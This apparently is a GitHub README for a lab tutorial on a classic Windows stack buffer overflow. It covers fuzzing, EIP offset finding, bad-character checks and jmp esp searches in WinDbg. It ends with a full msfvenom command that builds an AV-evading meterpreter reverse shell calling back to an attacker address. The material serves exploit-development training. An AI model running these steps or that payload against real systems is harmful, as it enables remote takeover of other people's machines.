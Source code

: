 # Classic-Buffer-Overflows<br/>

Python scripts needed to perform a buffer overflow from a previously known vulnerable application or proof of concept. There will also be a small description instructing how to use the files.<br/>
For this particular application I also use WinDbg to build out from the PoC to getting a meterpreter shell. <br/>
The naming covention I am using is as follows<br/>
SX[ShortDescription].py<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where SX is the step number, followed by a short description.

## S1PoCFuzz.py
This is a fuzzer that sends an arbitrary amount of data to a web based application that causes a crash.<br/>
Usage: ./S1PoCFuzz.py {IP} {Port} {Data} <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where data is an interger that represents the number of bytes that cause a crash.<br/>
<br/>
In our WinDbg debugger we see that we have overwriten every register except the ESP using the r command. <br/>
We can see what the ESP register points to by using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dds esp<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S1Fuzz.png)<br/>

## S2FindOffset.py
This script along with our debugger will help us find offset that writes to the EIP.<br/>
First we generate an array of characters using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom-pattern_create l- {data}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where data represents the number of bytes that caused the crash.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Next we make sure to send the character array to the vulnerable application.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This is shown on line 16 of this script.<br/>
Usage ./S2FindOffset.py {IP} {Port}<br/>
<br/>
From our debugger, we see that the EIP is overwritten by 33794332
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S2EIP.png)<br/>
Next we use find the offset that will overwrite the EIP by using the following command<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom-pattern_offset -l {data} -q {eip}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; where -l {data} is the amount of data that caused the application to crash and -q {eip} is the area we want to overwrite.
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S2Offset.png)<br/>
## S3ChangeEIP.py
Now that we know where our EIP is, we want to verify it and find a suitable location for our reverse shell.<br/>
usage ./S3ChangeEIP.py {IP} {port} {offset}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Where offset is the interger that obtained from the msfvenom-find_offset command<br/>
<br/>
In our WinDbg debugger we see that we have overwriten ESP with 42424242, or the hex representation of BBBB, using the r command. <br/>
We can see what the ESP register points to with the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dds esp -14 L10<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S3EIPOverwrite.png)<br/>
This command shows us that our ESP is 041dee6c.<br/>
The lines before our ESP show us that there are some 41s and some 42s.<br/>
These 42s represent our EIP, but more importantly we see that our ESP points to 44s.<br/>
This is where our shellcode will go.<br/>
By changing the value of L 10 to something higher we can see more bytes after our ESP. <br/>
It is good practice to navigate to each register to see how the application handles data. <br/>
This can be important because some applications may not have enough memory for our shellcode.<br/>
I will cover a few strategies later to overcome this limitation.<br/>
## S4BadChars.py
Before we can generate our shellcode, we have to find what characters cause our attack to fail.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Usage S4BadChars.py {IP} {Port}<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4BadChars.png)<br/>
using the command dds esp in WinDBg we can see the character array we sent to the application.<br/>
The nullbyte character (\x00) is omitted because its very likely to cause our attack to fail.<br/>
We are looking for characters that are out of place from 01 to ff.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;An out of place character may look like 01 02 03 04 08 06 07 08<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;In this case we would return to our python script remove 05 and make a note of it.<br/>
<br/>
We are also looking for characters that truncate the character array.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Truncation looks like 97 98 99 9a 9b 9c 00 ff f3 5a<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Where 9d would need to be removed because 9c is the last character from our array.<br/>
<br/>
Fortunately, this application does not have bad characters other than 00.<br/>
However, it is very important to note what these bad characters are.<br/>
We repeat this until we verify each character in our array.<br/>
## Generating our Shellcode
Before we can generate our shellcode, we need to find a module that contains a jump instruction.<br/>
This jump instruction will help us jump to our shellcode.<br/>
To do this we will use a program called process hacker and find our vulnerable application.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4Modules.png)<br/>
The ideal module does not have any protection, meaning that the ASLR and CF Guard fields are blank.<br/>
When we find a potentially suitable module, we go to our debugger and find the address for our jump command.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4JMPESP.png)<br/>
The first command gives us the boundary of the module. This boundary limits our search scope for our jump command.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;lm m vulnapp1<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where lm list the modules and m specifies a pattern that must match our query of vulnapp1.<br/>
The seccond command helps us achieve this.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;s -b 14800000 14816000 0xff 0xe4<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This command searches for ffe4 from 14800000 14816000 displaying the (-b)bytes.<br/>
In this case, since we are jumnping to the ESP we are searching for jmp esp which is ff e4<br/>
But a different application might require a different jump code<br/>
Which are here for your convinience. <br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4JMPCodes.png)<br/>
Now we can generate out shellcode using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.191 LPORT=443 EXITFUNC=thread -f python –e x86/shikata_ga_nai -b "\x00"
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where we use -p for the platform we are attacking and payload we are using
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;EXITFUNC=thread becuase we dont want to close the vulnerable app when we close the shell
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-e x86/shikata_ga_nai to encode the shellcode to either evade AV or avoid bad characters
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-b lets you specify what the bad characters are.
